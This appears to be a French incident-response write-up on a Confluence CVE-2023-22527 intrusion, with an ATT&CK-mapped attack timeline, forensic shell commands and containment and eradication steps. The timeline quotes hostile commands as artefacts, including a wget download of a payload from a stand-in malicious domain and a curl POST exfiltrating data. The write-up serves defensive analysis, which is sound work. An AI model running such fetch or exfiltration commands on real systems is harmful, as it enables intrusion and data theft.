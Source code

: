 #### 📊 Timeline de l'Attaque Reconstituée

| Timestamp | Événement | Artefact | Technique MITRE ATT&CK |
|-----------|-----------|----------|------------------------|
| **09:15:23** | Exploitation initiale | POST /template/aui/text-inline.vm | T1190 - Exploit Public-Facing Application |
| **09:15:24** | Template injection | createpage-entervariables.action | T1059.004 - Command and Scripting Interpreter |
| **09:15:45** | Téléchargement payload | wget malicious-domain.com/payload.sh | T1105 - Ingress Tool Transfer |
| **09:16:12** | Exécution payload | /tmp/.java_update | T1059.004 - Unix Shell |
| **09:16:30** | Établissement persistance | Crontab entry | T1053.003 - Cron |
| **09:17:00** | Reconnaissance interne | netstat, ps, whoami | T1057 - Process Discovery |
| **09:18:15** | Collecte de données | find /opt/atlassian -name "*.xml" | T1005 - Data from Local System |
| **09:20:30** | Exfiltration | curl -X POST data.txt | T1041 - Exfiltration Over C2 Channel |

#### 🎯 Techniques d'Analyse Spécialisées

**1. Analyse de la Vulnérabilité CVE-2023-22527:**
```bash
# Vérification de la version Confluence
grep -r "version" /opt/atlassian-confluence/confluence/META-INF/maven/com.atlassian.confluence/confluence-webapp/pom.properties

# Recherche des templates modifiés
find /opt/atlassian-confluence/ -name "*.vm" -exec grep -l "Runtime\|ProcessBuilder\|exec" {} \;
```

**2. Analyse des Payloads:**
```bash
# Déobfuscation des scripts téléchargés
base64 -d /tmp/.java_update > /tmp/decoded_payload
strings /tmp/decoded_payload | grep -E "(http|ftp|tcp|udp)"
```

**3. Recherche de Persistance:**
```bash
# Vérification des mécanismes de persistance
crontab -l -u confluence
systemctl list-units --type=service --state=active | grep -v "loaded active running"
find /etc/systemd/system/ -name "*.service" -newermt "2025-06-10 09:00"
```

#### 🛡️ Actions de Réponse Spécifiques

**1. Confinement Immédiat:**
- ✅ **Isolation réseau** - Serveur déconnecté du réseau de production
- ✅ **Arrêt service Confluence** - Prévention d'exploitation continue
- ✅ **Blocage IOCs** - IPs et domaines malveillants bloqués au firewall
- ✅ **Notification utilisateurs** - Indisponibilité temporaire du service

**2. Éradication Complète:**
- ✅ **Patch CVE-2023-22527** - Mise à jour vers Confluence 8.5.4
- ✅ **Suppression artefacts** - Nettoyage des fichiers malveillants
- ✅ **Réinitialisation credentials** - Changement mots de passe administrateurs
- ✅ **Durcissement configuration** - Restriction accès réseau

